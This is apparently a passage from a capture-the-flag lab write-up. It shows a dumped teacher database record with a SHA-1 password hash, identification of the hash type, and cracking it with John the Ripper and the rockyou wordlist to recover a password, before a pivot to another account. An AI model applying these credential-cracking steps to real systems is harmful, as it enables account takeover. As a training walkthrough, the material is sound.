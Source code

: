 ```bash
| teacher_id | name            | role | teacher_number | birthday   | sex  | religion     | blood_group | address                                                                                  | phone      | email                    | facebook | twitter | googleplus | linkedin | qualification | marital_status | file_name   | password                                 | department_id | designation_id | date_of_joining | joining_salary | status | date_of_leaving | bank_id | login_status |
+------------+-----------------+------+----------------+------------+------+--------------+-------------+------------------------------------------------------------------------------------------+------------+--------------------------+----------+---------+------------+----------+---------------+----------------+-------------+------------------------------------------+---------------+----------------+-----------------+----------------+--------+-----------------+---------+--------------+
|          1 | Testing Teacher | 1    | f82e5cc        | 2018-08-19 | male | Christianity | B+          | 546787, Kertz shopping complext, Silicon Valley, United State of America, New York city. | +912345667 | michael_sander@school.pg | facebook | twitter | googleplus | linkedin | PhD           | Married        | profile.png | 3db12170ff3e811db10a76eadd9e9986e3c1a5b7 |             2 |              4 | 2019-09-15      | 5000           |      1 | 2019-09-18      |       3 | 0            |
+------------+-----------------+------+----------------+------------+------+--------------+-------------+------------------------------------------------------------------------------------------+------------+--------------------------+----------+---------+------------+----------+---------------+----------------+-------------+------------------------------------------+---------------+----------------+-----------------+----------------+--------+-----------------+---------+--------------+
1 row in set (0.00 sec)


```

## Crack Hash with John

Identify the hash with "Name that hash"

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/educated]
└─$ nth --file hash.txt

Most Likely
SHA-1, HC: 100 JtR: raw-sha1 Summary: Used for checksums.See more
HMAC-SHA1 (key = $salt), HC: 160 JtR: hmac-sha1
Haval-128, JtR: haval-128-4
RIPEMD-128, JtR: ripemd-128

```

Crack the hash using John and format for "raw-sha1"

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/educated]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=raw-sha1

greatteacher123  (?)

Session completed.
```

# Pivot to Msander Account
